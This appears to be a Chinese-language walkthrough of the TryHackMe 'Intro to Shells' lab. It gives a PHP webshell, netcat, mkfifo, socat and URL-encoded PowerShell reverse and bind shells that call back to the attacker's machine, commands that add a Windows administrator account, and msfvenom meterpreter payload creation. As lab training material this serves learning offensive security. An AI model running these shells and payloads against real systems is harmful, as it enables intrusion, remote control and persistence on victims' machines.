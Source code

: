### webshell

#### 本文相关的TryHackMe实验房间链接：https://tryhackme.com/room/introtoshells
1. 尝试将 Webshel​​l 上传到Linux机器，然后使用以下命令：`nc <LOCAL-IP> <PORT> -e /bin/bash`将反向 shell 发送回您自己计算机上等待的侦听器。

  - `nc -nlvp 1234`
  - 创建php文件 webshell.php
      ```php 
      <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
        ?>
      ```
   - 打开被攻击的网址`http://10.10.57.248/`,上传webshell.php
   - 构建url `http://10.10.57.248/uploads/webshell.php?cmd=nc 10.10.21.196 1234 -e /bin/bash`,后面的参数ip为你本地的ip端口为你nc监听的端口(简单说这一步就是访问你刚才上传的文件并传入命令执行)。
   - 然后查看nc 看到连接成功

2. 导航到/usr/share/webshells/php/php-reverse-shell.phpKali 并更改 IP 和端口，以将您的 tun0 IP 与自定义端口相匹配。设置 netcat 监听器，然后上传并激活 shell。
  - 连接ssh `ssh shell@10.10.149.6`
  - 执行 `mkfifo /tmp/f; nc -lvnp 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
  - 执行 `nc 10.10.149.6 4444` 此处的ip是目标机的ip
  - 成功  

3. 在 Windows 目标上上传 Webshel​​l 并尝试使用 Powershell 获取反向 shell。
  - `nc -nlvp 1234`
  - 创建php文件 webshell.php
      ```php 
      <?php
        if(isset($_GET['cmd']))
        {
            system($_GET['cmd']);
        }
        ?>
      ```
   - 打开被攻击的网址`http://10.10.57.248/`,上传webshell.php
   - 构建url `http://10.10.57.248/uploads/webshell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.194.117%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`,后面的参数ip为你本地的ip端口为你nc监听的端口(简单说这一步就是访问你刚才上传的文件并传入命令执行)。
   - 然后查看nc 看到连接成功

4. 网络服务器正在以系统权限运行。创建一个新用户并将其添加到“管理员”组，然后通过 RDP 或 WinRM 登录。
  - 使用刚才获取的shell
  - `net user test test123 /add`               #添加新用户
    `net localgroup administrators test /add`  #添加用户到管理员组  
  - 使用新用户登录 `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.91.116 /u:test /p:'test123'`

5. 要求：尝试使用 socat 和 netcat 在 Windows 目标上获得反向和绑定 shell。
 netcat反向shell
    - 目标机ip：10.10.234.86    攻击机ip：10.10.249.251
    - Netcat反向shell, 在攻击者终端:`nc -lvnp 12345`
    - 然后使用 RDP 登录到目标的管理员账户,使用攻击机终端 通过RDP登录到目标系统的管理员账户
  `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.234.86 /u:Administrator /p:'TryH4ckM3!'`
    - 在 cmd 上输入以下内容:nc 10.10.249.251 12345 -e"cmd.exe"
    - 返回刚才创建的shell查看，成功建立netcat反向shell

  netcat绑定shell  
   - 现在正好相反，在目标机的cmd上启动一个 netcat 监听器: 
      `nc -lvnp 12345 -e "cmd.exe"  # -e和"cmd.exe"之间有空格和没有空格 执行结果一样`
   - 在攻击者的电脑上运行以下命令: `nc 10.10.234.86 12345`
   - 成功绑定shell  
   
 Socat绑定shell
  - 在目标机器的 cmd 上启动一个监听器（注意：socat监听器在执行监听时没有提示语）:   
  `socat TCP-L:12345 EXEC:powershell.exe,pipes`
  - 然后在攻击者的电脑上  
  `socat TCP:10.10.234.86:12345 -`
  - 成功绑定shell  

 Socat反向shell
  - 在攻击者的终端上设置socat监听器（注意：socat监听器在执行监听时没有提示语）:  
  `socat TCP-L:12345 -`
  - 然后在目标机器的 cmd 中运行以下命令
  `socat TCP:10.10.249.251:12345 EXEC:powershell.exe,pipes`
  - 成功建立Socat反向shell  

6. 使用 msfvenom 创建 64 位 Windows Meterpreter shell 并将其上传到 Windows Target。激活 shell 并使用 multi/handler 捕获它。尝试一下这个 shell 的功能。
 - 目标机ip：10.10.245.66  
  攻击机ip：10.10.244.218
 - 使用 msfvenom创建payload(包括 shell)的语法如下:  
  `msfvenom -p <PAYLOAD> <OPTIONS>`  
  在攻击机上运行(会生成一个shell.exe)：
  `msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.244.218 LPORT=12345`
  - 在攻击机上执行以下操作来设置 multi/handler:  
   1. 使用 `msfconsole` 命令打开 Metasploit
   2. 输入命令: `use multi/handler`
   3. 输入 `show options` 命令来查看不同的选项
   4. 设置PAYLOAD参数 (`set payload windows/x64/meterpreter/reverse_tcp`), LHOST参数 (攻击机ip)(`set LHOST 10.10.244.218`) 以及LPORT参数(`set LPORT 12345`)
  - 在目标机器上调用shell.exe文件
  - 在攻击机界面获得一个Meterpreter shell  

7. 为任一目标创建分阶段和无阶段的 meterpreter shell。上传并手动激活它们，用netcat捕获 shell——这有效吗？  
  不能，我们需要使用msf里面的multi/handler模块捕获meterpreter shell，用netcat并不能使这个shell正常工作。



  参考文章：[【THM】What the shell？-学习(下)](https://www.cnblogs.com/Hekeats-L/p/16769018.html)